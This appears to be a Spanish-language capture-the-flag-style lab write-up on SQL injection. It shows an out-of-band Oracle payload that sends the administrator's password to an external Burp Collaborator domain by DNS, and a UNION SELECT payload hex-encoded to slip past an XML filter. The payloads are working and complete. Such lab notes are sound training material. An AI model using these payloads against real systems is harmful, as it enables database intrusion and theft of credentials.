 ```sql
-- Como vemos, tenemos la posiblidad de agregar un comando al DNS LookUp, y como nos interesa saber la contraseña del usuario administrador:
select password from users where username = 'administrator'
-- junto a nuestra dirección de burp collaborator: 
lshnuj45bzcwimw2ytt6nocv4maqyf.oastify.com
-- nuestra query quedaría de la siguiente manera:
||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select password from users where username = 'administrator')||'.lshnuj45bzcwimw2ytt6nocv4maqyf.oastify.com/"> %remote;]>'),'/l') FROM dual )-- -
-- Finalmente UrlEncodeamos la petición, y si miramos la petición recibida en el collaborator, tenemos la siguiente peticion:
The Collaborator server received a DNS lookup of type AAAA for the domain name fetvkct55u3ifrfqsh3k.lshnuj45bzcwimw2ytt6nocv4maqyf.oastify.com.

--Donde fetvkct55u3ifrfqsh3k es la respuesta a la petición que hemos hecho (password del administrador)
```

## SQL injection with filter bypass via XML encoding

Este tipo de SQL injections afecta a la esctructura XML de la pagina, y como sabemos que la sección de stock es vulnerable, vamos a interceptarla con burpsuite:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
	2
	</productId>
	<storeId>
	1
	</storeId>
</stockCheck>
```

```sql
-- No obstante, cualquier SQL que le metamos al productID o StoreID no será util, ya que la pagina detectará el ataque y lo bloqueará. 

-- Esto sucede porque la SQL no sigue el patrón XML de la pagina. Para ello, tenemos que Encodearlo para que si lo siga. Gracias a la herramienta hackvector, podemos hacerlo facilmente. 

-- Como lo que nos interesa es la contraseña del usuario administrator, tenemos que introducir la siguiente sintaxis despues del productId o storeID:
2 union select password from users where username = 'administrator'-- -

-- y encodearlo en formato hex_entities usando hackvector:
-- Seleccionamos la sintaxis > click derecho > Extensions > hackvector > encode > hex_entities, por lo que nos quedará de la siguiente manera:
```

```xml
<stockCheck>
	<productId>
	<@hex_entities>
	2 union select password from users where username 
	= 'administrator'-- -
	<@/hex_entities>
	</productId>
	<storeId>
	1
	</storeId>
</stockCheck>
```
